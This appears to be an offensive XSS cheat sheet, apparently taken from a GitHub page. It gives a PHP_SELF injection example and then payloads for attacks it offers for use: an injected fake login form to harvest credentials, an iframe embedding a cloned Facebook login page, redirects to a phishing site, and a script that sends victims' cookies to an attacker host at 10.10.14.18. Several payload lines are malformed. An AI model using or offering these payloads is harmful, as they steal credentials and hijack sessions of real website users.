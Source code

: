  **7. PHP_SELF**  
   * Is a reflection of the url, the application will read the URL and echo it.  
   * Considering: `<form action="/index.php/" method="POST">`  
   * We can inject with: `/index.php/"><script>alert(1)</script>`  
   * Will now read: `<form action="/index.php/>"<script>alert(1)</script>" method="POST">`  
		
### Stuff we can do?

 **1. Inject a Phishing script**  
 **2. Iframe Phishing**  
 **3. Redirict Phishing**  
 **4. Cookie stealing**  


 **1. Phishing script injection: Inject a 'user' and 'password' field in html**  
(With the <html> and <body> tags), creating a false login field where the creds are harvested.  
`<html><body><head><meta content="text/html; charset=utf-8"></meta></head><div style="text-align: center;">`  
	
**Phishingpage:**``<br /><br/>Username :<br /> <input name="User" /><br />Password :<br />``  

`<input name="Password" type="password" /><br /><br /><input name="Valid" value="Ok !" type="submit" /><br /></form></div></body></html>`

 **2. Iframe Phishing:** 
Inject a javascript code containing an iframe where your phishing site is embeeded.  
Obviously it needs to look just like the target site.

`<iframe src="http://192.168.21.130/Facebook – log in or sign up.html" height="100%" width="100%"></iframe>`

 (Note: height="100%" width="100%" means that the whole window is filled with that iframe.)  
 The target site will spawn your phishing site in an Iframe, and the website user / victims won't see a difference and log in (If they're are foolish enough).  

 **3. Rediriction Phishing:**  
 Similar simple concept, inject a javascript rediriction script that leads to your phishingsite, make sure it looks the same.

Example:

   * `<script>document.location.href="http://www.yourphishingsite.ru"</script>`

   * `<META HTTP-EQUIV="refresh" CONTENT="0; URL="http://www.yorphishingsite.ru">`

   * `<img src=x onerror=this.src="http://10.10.10.154/admin/backdoorchecker.php?cmd=dirheck>`

**4. Cookie stealing:** 
A feared XSS flaw. Can be reflected or stored.

	  reflected (remember that if an attack does not work, play arouund with different parameters):
		<script> document.write("<iframe src='http://10.10.14.18:8000/test.html?cookie="+document.cookie+"'></iframe>");</script>

	  Stored:
     Place this cookiestealer.php in your hoster, and then inject javascript
     with your cookie stealer script embedded on your target website.
